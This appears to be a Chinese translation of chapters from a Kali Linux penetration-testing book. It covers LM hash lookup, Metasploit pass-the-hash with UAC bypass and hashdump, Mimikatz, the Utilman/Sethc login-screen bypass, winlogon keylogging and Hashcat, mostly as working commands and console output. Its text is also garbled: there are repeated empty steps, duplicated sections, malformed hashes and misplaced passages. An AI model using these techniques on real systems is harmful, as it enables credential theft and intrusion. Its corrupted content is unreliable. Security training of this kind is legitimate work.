这意味着有大量的 Windows XP 系统仍在使用业务关键岗位上。计算机并不以明文形式存储密码，而是以加密的形式存储密码。计算机有多种不同的加密密码的方法。最安全的方法之一包括对密码进行“加盐”（Salting）。基本上，这意味着使用一个数字（或盐）并将其整合到哈希处理过程中，以确保没有两个密码是相同的。

如果不使用加盐（如微软 LM 系统中），你只需要破解一个哈希，所有使用相同密码的用户都将拥有相同的哈希。因此，你只需要获取该哈希并将其与已知的哈希进行比较，如果匹配成功，你就得到了密码！

许多 Windows XP 系统使用 LM 哈希来保护密码。这是一种非常老旧且过时的存储密码哈希的方法。这种哈希过程是为 Windows NT 之前的系统创建的。

基本上，在运行 LM 哈希的系统中，任何 14 个字符或更少的密码都会被转换为全大写，然后分成两个 7 字符的密码。每个部分然后被加密并组合形成最终的哈希。

同样没有使用加盐，所以基本上如果你能从系统中获取 LM 哈希，你只需要与已知的哈希进行查找表比对，即可获得实际密码。

一个典型的 Windows 哈希看起来像这样：

```
ac93c8016d14e75a2e9b76bb9e2c2bb6:8516cd0838d1a4fd1ac3e8eb9811
```

LM 哈希位于冒号左侧，而 NHash 位于右侧。

### 在线破解 LM 密码

有几个网站允许你输入 Windows LM 哈希，它将返回所使用的密码（如果它在它的查找表中）。

一家名为 Objectif Sécurité 的瑞士公司（Ophrack 的创建者）开发了一种在 SSD 驱动器上使用彩虹表的破解技术。他们提供了该技术的在线演示，可以在几秒钟破解许多 LM 密码。

> (http://www.objectif-securite.ch/en/ophrack.php)

我们将尝试几个哈希看看它的效果如何。让我们从一个简单的开始。这是来自 XP 机器的 Administrator 密码哈希：

**哈希：** `aad3b435b51404ceead3b435b51404ee:31d6cfe0d016ae931b73c59d7e0c0890`

将此输入 Objectivef 破解工具，我们生成了：



看起来 Administrator 没有设置密码，这不太妙……

好了，那个不是14个字符，让我们试试一个困难的。

**哈希：** `17817c9fb92d27af44da1cb95cae33:6bcec2ba2597f089198735afaea300d4`

以及响应：



哇！那只花了 4 秒，而且是一个不错的密码。

让我们尝试另一个带有更多特殊字符的：



**耗时：** 6 秒（每天都试着输入这个！）

最后：

**哈希：** `747747dc6e24578d18aeb7eb71d6:43c6cc2170b7a4ef851a622ff156055`



**耗时：** 7 秒。非常令人印象深刻，在这次测试中仅花了四到七秒就破解了几个 14 字符的复杂密码。

当然，这些是 Windows LM 哈希，而不是更安全的 Windows 7/Server 2008 基于 NTLM 的希。

但是，我相信随着破解速度的提高，仅依赖密码可能不再是一个良好的安全措施。许多公司和政府机构正在从仅使用密码转向使用双重身份验证方法。

生物识别和智能卡在安全设施中变得越来越流行。

### 不确定你拥有哪种哈希？

有几种不同的哈希。有时你可能检索密码哈希，但可能无法确定它的类型。Hash ID 将识别你提供的哈希类型。

只需运行 Hash ID 并输入哈希。

程序将检查它并返回你拥有的最可能的哈希类型以及……

## 第17 章 – 哈希传递 (Pass the Hash)

## 引言

在上一节中，我们查看了 LM 密码有多不安全，但基于 NTLM 的密码呢？

Windows 系统通常将 NTLM 哈希与 LM 哈希并在一起存储，NTLM 哈希更安全。正如我提到的，可以关闭 LM 哈希（或直接使用超过 14 个字符的密码）。

## 活动会话

| Id | Type | Connection |
|---|---|---|
| 1 | meterpreter x86/win32 | WIN-LOANLTDQU-Ralf @ WIN-LOANLTDQU 192.168.192.134:443 -> 192.168.198:39268 (192.168.198,132) |

```
msf exploit(handler) -> sessions -i 1

[+] Starting interaction with 1...

meterpreter > getuid

Server username: WIN-LOANLTDQU-Ralf

meterpreter >
```

如你所见，我使用了 "`sessions`" 命令来查看活动会话。目前只有一个，所以我使用 "`sessions -i 1`" 命令启动了一个活动会话。

我成功连接到了 Windows 7 会话，并最后输入 "`getuid`" 来显示登录系统的用户，在本例中用户是 "`Ralf`"。

现在让我们获取系统级权限，以便导出哈希值（hashes）。这只需通过运行书中之前讨论过的 Bypass UAC 模块即可完成，但我将在这里展示步骤：

```
meterpreter > background

[+] Background session 1...

msf exploit(handler) -> use exploit/windows/local/bypassuac

msf exploit(bypassuac) -> set session 1

session = 1

msf exploit(bypassuac) >
[*] Started reverse handler on 192.168.198.134:444
[+] UAC is Enabled, checking level...
[*] set to Default
[*] UAC can bypass this setting, continuing...
[*] Checking admin status...
[*] administrators group! Continuing...
[+] Uploading the UAC executable to the filesystem...
[+] Meterpreter stage executed 73802 bytes being uploaded.
[+] Uploaded the agent to the filesystem (73802 bytes).
[*] Meterpreter session opened (192.168.198.134:4444) -> 192.168.198.132:49264)
2013-09-23 14:33:42 -0409

meterpreter >
```

很好，Ralf 是一个管理员，Bypass UAC 函数生效了。它自动降到了会话 2。现在我们只需要运行 "`getsystem`" 命令来获取系统级凭据。

```
meterpreter > getsystem

..got system (via technique 1).
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter >
```

如所示，再次通过 "`getuid`" 命令我们验证了我们确实是 "`System`" 用户。

现在输入 "`hashdump`" 来恢复系统哈希值：

```
meterpreter > run post/windows/gather/hashdump
```

```
Administrator:500aad3a33b5f104e4ead33b5f104e4ead3b5f1404e6ea931b73c59d7e0c0890:
Guest:501aad3a33b5f104e4ead33b5f104e4ead3b5f1404e06ea931b73c59d7e0c0890:
Free:1000aad3a33b5f104e4ead33b5f104e4ead3b5f1404e06ea931b73c59d7e0c0890:
Alice:1001aad3a33b5f104e4ead33b5f104e4ead3b5f1404e2e4b83aa056289935dea328977b20:
Bob:1002aad3a33b5f104e4ead33b5f104e4ead3b5f1404e2de6e07a98da725150d112563f5b89dbe:
George:1003aad3a33b5f104e4ead33b5f104e4ead3b5f1404e317a99a106180922084ccb6b971ad6e7::
Ralf:1004aad3a33b5f104e4ead33b5f104e4ead3b5f1404e25e2018228ada8ea40600172344f3b2::
```

如你所见，这里是所有用户的哈希值。让我们看看是否能以 Administrator 的身份连接到 Windows 7 系统。

我们将使用 SMB Pexec 模块来实现此。

- 1. 将当前会话后台化并输入 “`use exploit/windows/smb/psexec`”：

```
meterpreter > background
[*] Backgrounding session 2...
msf exploit(bypassuac) > use exploit/windows/smb/psexec
```

如果你想查看此漏洞的选项，记得输入 "`show options`”。

- 2. 输入 "`msf exploit(psexec) > show options`”：

```
msf exploit(psexec) > show options

Module (exploit/windows/smb/psexec):

Name                Current Setting      Description
----                ----------------    ----------------
RHOST               yes                 The target address
PORT               445                 The SMB service
SHARE              ADMIN$             normal read/write share
Domain             no              The Windows domain to login
SMBPass             no                 The password for the user
SMBUser             no                 The username to authenticate
```

好了，现在只需要为远程主机 (`RHOST`) 设置 IP 地址，并使用哈希作为 `SMBPass`。

- 3. 输入 “`set RHOST <TargetIP>`” 并回车。

- 4. 然后输入 “`set SMBUser Alice`”：

```
msf exploit(psexec) > set RHOST 192.168.198.132
RHOST => 192.168.198.132
msf exploit(psexec) > set SMBUser Alice
SMBUser => Alice
msf exploit(psexec) >
```

我们需要设置目标系统 IP 地址，并且有用户 Alice。与其输入我们不知道的密码，我们只需使用哈希！

- 5. 输入 "`set SMBPass`" 并粘贴哈希值，然后回车：

```
msf exploit (psexec) > set SMBUser Alice
SMBUser => Alice
msf exploit (psexec) > set SMBPass aad3b43b5104eea3b4310ee2e4db3aa0562995ae327
```

（如所示粘贴哈希。在这种情况下省略用户 ID 部分以及最后的冒号。）

结果如何？

在 UAC 设置为关闭的更新 Windows 7 系统上，什么都没有发生！我们收到了“Access Denied”消息且没有连接：

```
msf exploit(psexec) > exploit
[*] Started reverse handler on 192.168.198.124:4444
[*] Connecting to the server... 
[*] Authenticating to 192.168.198.124:445|WORKGROUP as user 'Alice'...
[*] Uploading payload... 
[*] Error (no-access): Rex::Proto::SMB::Error The server responded with error: STATUS_ACCESS_DENIED (Command=1 WordCount=0)
msf exploit(psexec) >
```

但在 UAC 完全关闭的系统中，情况完全不同：

```
msf exploit (psexec) > exploit
[*] Started reverse handler on 192.168.198.124:4444
[*] Connecting to the server... 
[*] Authenticating to 192.168.198.124:445|WORKGROUP as user 'Alice'...
[*] Uploading payload... 
[*] Created: Hykkvw.exe
```


[*] Binding to `367abb81-9944-35f1-932-98f0380103:2.0|ncacmn_np:192.168.198.132|\svctl`

[*] Obtaining a service manager...

[*] Creating a new service (I2MNLL - "MalXmROYMX")

[*] Starting the service...

[*] Removing the service...

[*] Closing service handle...

[*] Waiting for process to become available...

[*] Sending stage (75128 bytes) to `192.168.198.132`

[*] Meterpreter session 2 opened (`192.168.198.124:4444` -> `192.168.198.132:49488`)

at `2013-09-25 12:05:28 -0400`

`meterpreter >`

```
这就是在安全测试中会发生的情况。看起来是一个突破口可能无效。所以你退出并尝试其他的。在这种情况下，我们无法在启用 UAC 的情况下获取 shell，但在禁用 UAC 的系统中顺利获取。
```

## 哈希传递工具包 (Passing the Hash Toolkit)

在 Kali 中，“哈希传递 (PTH) 工具包”是十个工具的集合，允许你执行不同的功能。PTH 最近被添加到 Kali 中，可以从菜单打开：

### Kali Linux/Password Attacks/Passing the Hash

或者在文件系统 `/usr/bin/` 中：

```
root@kali:~# find / -name "pth-*"
/usr/bin/pth-openchangeclient
/usr/bin/pth-sqsh
/usr/bin/pth-rpccclient
/usr/bin/pth-smbclient
/usr/bin/pth-curl
/usr/bin/pth-smbget
/usr/bin/pth-wmis
/usr/bin/pth-wmic
/usr/bin/pth-net
/usr/bin/pth-winexe
```

你可以使用这些命令做一些有趣的事情。我们不会涵盖这些命令，但许多命令对 Windows 用户来说可能相似。

只需使用帮助开关 (`--help`)，你就会获得命令选项和用途的帮助列表：

```
root@kali: smbget --help
Usage: smbget [OPTION...]
-a, --guest
-e, --encrypt
Encrypt SMB transport (UNIX extended servers only)
-r, --resume
Automatically resume aborted files
-U, --update
Download only when remote file is newer than
local file or local file is missing
-R, --recursive
Recursively download files
-u, --username=STRING
Username to use
-p, --password=STRING
Password to use
-w, --workgroup=STRING
Workgroup to use (optional)
-n, --nonprompt
Don't ask anything (non-interactive)
-d, --loglevel=INT
Debuglevel to
-o, --output=STRING
Write downloaded data to specified file
```

虽然这超本书的范围，但哈希传递工具包的作者在他的网站上写了一些很好的文章，其中一篇介绍了如何使用哈希传递 WMI 命令和 PowerShell 获取远程 shell。

`http://passing-the-hash.blogspot.com/2013/07/WMIS-PowerSploit-Shells.html`

## 防御哈希传递（Pass the Hash）攻击

那么，可以做什么来防止这类攻击呢？

在测试期间，我发现 Windows 7 自带的 Windows 防墙是一个障碍。

我还发现，如果将用户账户控制（UAC）设置设置为“从不通知”以外的任何级别，许多哈希传递类型的攻击在 Windows 7 上完全无法作用：

而且正如你所看到的那样，系统使用提供的用户（Alice）和密码哈希创建了一个远程会话：

```
msf exploit(handler) > sessions
Active sessions
=================
Id Type                 Information
Connection             The quieter you be
1 meterpreter x86/win32 WIN-LOANOTLDQL\Alice @ WIN-LOANOTLDQL
192.168.198.144:443 -> 192.168.198.132:49175 (192.168.198.132)
```

### 始终通知

- 在以下情况下，绝不通知我：
  - 程序尝试安装软件或对我的计算机进行更改
  - 我更改了 Windows 设置

> 不推荐。仅当你需要使用未经过 Windows 7 认证且不支持用户账户控制的程序时，才选择此项。

从不通知

Windows Vista 中被很多人抱怨（并被禁用！）的实用程序实际上提高了系统的安全性。

在 Windows 7 系统上，请确保 UAC 已启用并设置为“从不通知”以外的内容。

此外，完全关闭 LM 和 NTLM 并启用 NTLM2 阻止了这种攻击。这是通过在系统安全策略中将身份验证级别设置为“发送 NTLM2 响应\拒绝 LM & NTLM”实现的。

接下来，人们可能会考虑仅使用 Kerberos 认证。从我所看到的，似乎没有万无一的方法可以在范围内强制使用 Kerberos。此外，网络上的许多设备为了向后兼容仍然创建并使用 LM/NTLM 哈希，因此从你的网络中完全删除它们仍然是一项任务。

## 第 18 章 – Mimikatz 明文密码

### 节介绍

在本节中，我们将查看如何恢复明文形式的远程密码。

你读得没错，*明文*！

我曾与“Mimikatz”的幕后主手 Benjamin Delpy（又名 Gentil Kiwi）交流过，他似乎是安全社区中最友善的人之一。

我不会假装我完全理解他是如何做到的，但这位大师级程序员已经在 Windows 进程的多个位置发现了明文（！）的 Windows 密码。

而且他已经通过他编程魔法般的技巧，将它们提取出来。

Mimikatz 已经作为一个独立程序可用了一段时间，并被添加到 Metasploit 框架中，作为一个可加载的 Meterpreter 模块，这使得在拥有远程会话后恢复密码变得极其简单。

我提到了密码是明文的吗？

### 加载模块

我们将从 Meterpreter 中一个活跃的 Windows 7 系统级远程 Shell 开始。

> （请参阅“绕过 UAC”章节以查看如何从管理员级别账户切换到系统级别账户）。

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

我们需要加载 mimikatz 模块，有 32 位和 64 位模块，请根据情况选择：

```
meterpreter > load mimikatz
load mimikatz        load mimikatz.x64
meterpreter >
```

- 1. 在 Meterpreter 提示符下，输入“`load mimikatz`”。
- 2. 输入“`help`”查看可用命令列表。

| Mimikatz 命令 | 说明 |
| --- | --- |
| kerberos | 尝试检索 kerberos 凭据 |
| livesspp | 尝试检索 livesesp 凭据 |
| mimikatz_command | 运行自定义命令 |
| msv | 尝试检索 msv 凭据（哈希） |
| ssp | 尝试检索 ssp 凭据 |
| tspkg | 尝试检索 tspkg 凭据 |
| wdigest | 尝试检索 wdigest 凭据 |

帮助信息非常浅俗易懂；基本上为你想要恢复的凭据输入对应的命令即可。

所以对于 Kerberos，只需在 Meterpreter 提示符处输入 "`kerberos`"。或者输入 "`msv`" 来恢复哈希。

使用这些命令你可以从多个系统源恢复用户密码 - Windows 登录密码、MS Live 密码、终端服务器密码等。

你还可以使用 "`mimikatz-command`" 来执行更多功能，例如检索存储的凭据。但现在我们只对密码感兴趣。

### 恢复哈希和明文密码

- 1. 输入 "`msv`"：

```
meterpreter > msv
[*] Running as SYSTEM
[*] Retrieving msv credentials
[*] msv credentials
AuthID Package      User                Password
01035282 NTLM    WIN-LOANTLDQU Rea      lm (0000000000000000)
0000000000000000 NTLM    (t25e20e18228ad8e4a60017234af43b2)  lm (0000000000000000)
01035232 NTLM    WIN-LOANTLDQU Rea      lm (0000000000000000)
```

> 警告！！！
*** 警告 *** 如果在此过程中你执行了任何错误操作，可能会导致你的 Windows 系统无法启动。你已收到警告。

- 1. 在 Windows 系统上，从 Kali Linux Live CD 启动：



- 2. 一过会儿后，Kali 桌面就会出现。点击“Places（位置）”，然后选择你的本地硬盘，它将显示为“xx GB Filesystem”。



打开该硬盘后，你的 Windows 文件系统就会显示出来：

（注意：如果硬盘未经过加密，此时此时你将拥有对 Windows 文件系统的完全访问权限）

- 3. 现在导航到“`Windows\System32`”目录：


我们现在要做的是将原始 `Utilman.exe` 重命名移走，创建一个 `cmd.exe` 的副本，并将其重命名为 `Utilman.exe`。

- 4. 找到“`utilman.exe`”文件并将其重命名为“`utilman.old`”：


- 5. 右键点击“`cmd.exe`”文件并点击“copy（复制）”，现在将其粘贴回同一个目录下，你现在应该同时拥有“`cmd.exe`”和名为名为“`cmd (copy).exe`”的文件，如下所示：


- 6. 现在将“`cmd (copy).exe`”文件重命名为“`Utilman.exe`”。


你现在应该有两个 utilman 文件，一个 `utilman.old`（原始文件）和一个 `utilman.exe` 文件（`cmd.exe` 的副本）：

这就够了！我们保留 `Utilman.old` 文件，以防我们以后想要将其切回并恢复正常的 Utilman 功能。

- 7. 现在只需关闭 Kali 并让 Windows 系统正常启动。

- 8. 在登录界面，同时按下“Windows”键和“u”键。这时会弹出一个系统级的命令提示符！



如果你输入“`whoami`”，你将发现你实际上是用户“`nt authority\system`”，这是可用的最高级别访问。注意登录图标仍然在背景中。

从这里开始你可以做任何你想做的事，你拥有完全访问权限。

此方法适用于 Windows 9x 及以上所有版本的 Microsoft Windows 操作系统。它也适用于服务器产品。这里是 Server 2012 R2 Datacenter 的登录界面。注意“按 Control-Alt-Delete 登录”的消息，以及以系统级权限打开的命令提示符：


以同样的方法修改“`Sethc.exe`”也允许你绕过 Windows 登录界面。“`sethc`”文件用于 Windows 粘滞键（Sticky Keys）功能。在正常操作下，如果你连续按下五次 Shift 键，就会弹出粘滞键对话框。

使用这种方法，在登录界面按下五次 Shift 键即可打开系统级命令提示符。

> ***管理员注意** – 在大多数情况下，物理访问等同于完全访问。加密你的驱动器并保护你的系统！

### 从锁定的工作站恢复密码

继续这一概念，对于渗透测试人员来说（如果你对系统有物理访问权限），如何从一个停留在锁定登录提示界面的 Windows 系统中获取密码？如果你能以明文形式获取这些密码又如何？

嗯，你可以做到！

段时间以前我在想，如果你是一个拥有系统物理访问权限的渗透测试人员，是否可能从锁定的桌面上获取密码？你知道的，用户正在使用系统，并在离开吃午饭前尽职地锁定了工作站。

如果你对系统有物理访问权限，这是可以。

首先，你需要能够从登录界面启用系统级命令提示符。如上文所述，“Utilman Login Bypass（Utilman 登录绕过）”技巧只需按下键盘上的“Windows”键和“u”即可弹出一个系统级提示符。

现在我们只需要一个安装了 Mimikatz 的 USB 驱动器。可以从以下地址下载：

Kiwi 的博客：
`http://blog.gentilkiwi.com/mimikatz`

- 1. 再次，你需要已经按照之前的某一点安装了“Utilman Bypass”。

- 2. 在锁定的 Windows 桌面上按下“windows”和“u”键。


- 3. 输入“`whoami`”以验证我们确实处于系统级：

```
C:\Windows\system32>whoami
nt authority
C:\Windows\system32>
```

- 4. 导航到你的 USB 驱动器。在我的系统中是 `E:` 盘：

```
E:
Volume in drive E has no label.
Volume Serial Number is C4E3-F7
Directory of E:\mimikatz
09/21/2013 02:56 PM <DIR> Win32
09/21/2013 02:56 PM <DIR> x64
08/17/2013 06:25 PM <DIR>
08/17/2013 06:54 PM <DIR> alpha
05/12/2013 07:24 PM <DIR> tools
               6 File            453,888 bytes free
E:\>
```

- 5. 进入你的 USB 驱动器。在我的系统中是 `E` 盘：

```
E:
Volume in drive E has no label.
Volume Serial Number is C4E3-F7
Directory of E:\mimikatz
09/21/2013 02:56 PM <DIR> Win32
09/21/2013 02:56 PM <DIR> x64
08/17/2013 06:25 PM <DIR>
08/17/2013 06:54 PM <DIR> alpha
05/12/2013 07:24 PM <DIR> tools
               6 File            453,888 bytes free
E:\>
```
- 进入你的 mimikatz 目录，进入 `win32` 或 `x64` 取决于你的。

```
E:\mimikatz>
```

- 6. 在 mimikatz 目录中运行 Mimikatz。

```
E:\mimikatz>
```

- 7. 这种方法有效，正如你可以看到：

```
mimikatz ()
```


- 8. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 9. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 10. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 11. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 12. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 13. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 14. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 15. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 16. 这种方法有效，正如你可以看到：

```
mimikatz #
```

- 17. 这种方法有效，正如你可以看到：

```
mimikatz #
```

# 第 20 章 - 键盘扫描与锁定型键盘记录器

## 引言

有时，渗透测试人员可能拥有用户机器的远程访问权限，但可能没有用户的密码。也许用户有一个非常长且复杂的密码，破解它需要太长时间。他能做什么呢？

Metasploit Framework 有一个非常棒的工具可以捕捉目标机器上的按键。我们将从一个已经在其上运行了漏洞利用并成功通过 Metasploit 创建了远程会话的系统开始。我们通过 `session` 命令连接到会话，现在正处于 Meterpreter 提示符下。

## 使用 Meterpreter 进行键盘记录

我们将从一个已经在其上运行了漏洞利用并成功通过 Metasploit 创建了远程会话的系统开始。我们通过 `session -i <ID>` 连接到会话，现在正处于 Meterpreter 提示符下。

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

如果你在 Meterpreter 提示符下输入“help”，将得到一个可以运行的命令列表。在本节中，我们只关注“keyscan”命令：

```
keyscan_dump 导出按键缓冲区
keyscan_start 开始捕捉按键
keyscan_stop 停止捕捉按键
```

所以，让我们来看看启动远程键盘记录器时是什么样子，然后我们将查看捕捉到的按键。

- 1. 只需输入“keyscan_start”即可开始远程记录。

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter >
```

- 2. 现在，我们需要等待受害者在键盘上输入一些内容。例如，打开你的 Windows 7 浏览器并在 Google 上进行搜索。

- 3. 现在回到 Kali 系统，要查看输入了什么，输入“keyscan_dump”：

```
keyscan_dump
Dumping captured keystrokes...
google.com <Return> will Dallas go 8 an 8 again this year? <Return>
meterpreter > 
```

从这个演示可以看出，目标用户访问了“google.com”并搜索了“will Dallas go 8 an 8 again this year?”

否则，我们的用户是一个达拉斯拉斯牛仔队的足球迷。让我们再尝试一次。如果用户使用了像 Windows 键这样的特殊键会发生什么？如果用户使用“Windows” + “L”锁定键盘，然后使用密码重新登录会发生什么？

去试一下吧。使用“Windows”和“L”锁定你的 Windows 系统。然后用密码重新登录。

现在回到 Kali 系统，执行 keyscan_dump 查看我们拥有了什么：

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<LWin>
meterpreter > 
```

好的，它正确地记录了我按下了“<LWin>或左 Windows 键和“L”键。但我用密码重新登录了，密码在哪里？

*它没有被记录*

问题在于 Windows 安全的工作机制。简单来说，活动会话（桌面）和 winlogin（登录进程）使用不同的键盘缓冲区。如果你正在嗅活动会话，你就无法捕捉登录时的按键输入，反之亦然。

你需要将记录器移动到你想要监控的会话。在这种情况下，只需将我们的 Meterpreter 迁移到 winlogin 进程即可进入寻找密码的正确模式。

然后再次启动 keyscan。

- 4. 在 Meterpreter 中输入“ps”获取进程列表。寻找进程“winlogin”的 PID。


如图像所示，winlogin.exe 的进程 ID 号为 432。我们需要将 Meterpreter 会话迁移到该 ID。

- 5. 输入“migrate <winlogin PID>”或者在这里输入“migrate 432”。

```
meterpreter > 
[*] Migration from 2688 to 432...
[*] Migration completed successfully.
meterpreter >
```

（注意：如果遇到“权限不足”错误，你将运行 Bypass UAC 模块并将级别提升到“system”。更多信息请参阅本书中的 Bypass UAC 章节。）

现在，去再次启动 keyscan，锁定 Windows 7 工作站并重新登录。然后导出键日志查看用户密码：

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
#LongPasswordsAreWayToGo! <Return>
meterpreter >
```

我们得到了！
在上面的图片中，注意锁定桌面的“Windows” + "L”按键没有出现。这是因为我们现在正在监控 winologon 会话键缓冲区，所以它没有显示。但我们有了密码。

所以本质上，我们的目标需要再喝杯咖啡来度过他忙碌的一天，他锁定了桌面然后重新登录。而我们成功获取了他的完整的 28 位字符的密码。

## 使用锁定型键盘记录器自动化键盘扫描

现在，如果我们可以自动化这个过程就太棒了。我的意思是，你真的想就坐在那里等用户离开他们的系统吗？

你可以强制他的桌面进入锁定模式并让他重新登录。

锁定键盘记录器（Lockout Keylogger）实现了从头到尾的全过程自动化。用户离开电脑，脚本等待一段空闲时间，然后将计算机设置为锁定模式。然后，当用户重新登录时，它已经设置好扫描所按的按键。

密码可能是简单的，也可能是复杂的，这并不重要。Lockout_Keylogger 会拦截它并以明文显示在渗透测试人员的机器上。

# 第 21 章 - Hashcat

## 资源

- Hashcat Wiki - http://hashcat.net/wiki/
- 为你的显卡安装视频驱动程序 - http://docs.kali.org/general-use/install-nvidia-drivers-on-kali-linux
- 字典列表 - 参阅“字典列表”章节

## 引言

到为止，我们已经涵盖了几种攻击密码的技术。我们看到，有时你只需要进行彩虹表查询，在某些情况下你可以直接传递哈希。但如果其他所有方法都失败了，你就必须破解哈希。

Kali 包含了几个优秀的程序来完成此任务。在本节中，我们将查看我喜欢的工具之一：Hashcat。

我们依赖密码来保护我们的家庭系统、业务服务器以及保护我们的在线账户信息。但随着破解程序的改进和显卡速度越来越快（视频 GPU 被用于极快速破解），密码变得越来越更容易破解了。

这个问题有多大？

不久前，我在我的 Windows 7 系统上尝试了 OCL-Hashcat，该系统配备 Core i5-550 处理器（运行频率 2.67 Ghz）和单块 AMD Radeon 7870 显卡。我使用了一个最近发布的密码哈希文件，其中包含 7,000 多个用户哈希。我由于大小的原因选择了它。是的，还有更大的文件，但我认为这个大小更真实地对应了渗透测试人员或事件响应团队可能处理的平均公司规模。此外，有多少美国企业拥有百万或更多员工呢？

使用 OCL-Hashcat 和两个不同的字典文件，我成功破解了 86%…… 只用了 30 分钟……

如果这听起来并不令人印象深刻，OCL-Hashcat 仅用 12 秒就恢复了其中 46%，大约用 13 分钟恢复了 66%。

想想一下，七千个密码中的 46% 在 12 秒内就被破解了。

现在，花一分钟考虑你公司的密码长度和复杂度策略。长且复杂的密码破解时间会呈指数级增长，除非该密码本身存在于字典文件中。

## Hashcat

Hashcat 是一个全能密码破解器，可以在你的显卡处理器（GPU）或 CPU 上运行。GPU 版本 OCLHashcat-plus（取决于你的显卡，可能是 CUDAhashcat-plus）被用于世界上最快的 md5crypt、phpass、mcash2 以及 WPA / WPA2 破解器。

Hashcat 是一个多线程破解器，因此如果你的 CPU 可以运行多个线程，它就会利用它们。但当使用 GPU（你显卡上的处理器）的动力时，真正的速度才会显现。如果你的 GPU 可以运行数百个线程，那么所有这些力量都将用于破解密码。

你甚至可以利用多块显卡的力量创建一个怪物级的破解站。

## 破解 NTLM 密码

没有比实践练习更好的了，所以让我们破解一些哈希吧。

这里是一些：

```
a4f9c4c06510bdab6824ee7c30fd852
2e4db8f3aa056289935daea328977b220
d149886c6122b1654ba39932465528
a4a8441c8cb2b55e3ef465c83f01aa7
259745cb123a52aa2693aaacca2db52
d5c2155551f0d728230b290afd3cd539
5835048ce92ad0564c29a92403510ef
b963c570101218ed2cc3c229b5e4d0f
f773c5db7d2beeba4b0daec72e8c50a4
50d5ec3883a2caf1842f8b1c630d895a4
6afdf3aafebf742111010f02ba621b3e
43fcc6fa6ba3d14b26427c26d00410ef
27c0755aa55ecfedba01c0226813da3f
9349b142f202437a557c526fcf8f2d3
```


## 破解 NTLM 密码

没有比实践练习更好的了，所以让我们破解一些哈希吧。

这里是一些：

```
a4f9c4c06510bdab6824ee7c30fd852
2e4db8f3aa056289935daea328977b220
d149886c6122b1654ba39932465528
a4a8441c8cb2b55e3ef465c83f01aa7
259745cb123a52aa2693aaacca2db52
